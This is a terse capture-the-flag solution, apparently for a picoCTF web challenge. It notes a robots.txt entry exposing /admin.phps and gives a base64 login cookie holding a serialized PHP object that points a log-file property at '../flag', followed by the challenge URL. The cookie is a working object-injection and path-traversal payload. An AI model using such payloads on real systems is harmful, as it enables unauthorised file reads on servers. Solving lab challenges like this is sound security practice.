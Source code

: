 ```
robots.txt

User-agent: *
Disallow: /admin.phps
```

set login cookie to TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9

Visit
http://mercury.picoctf.net:2148/authentication.php


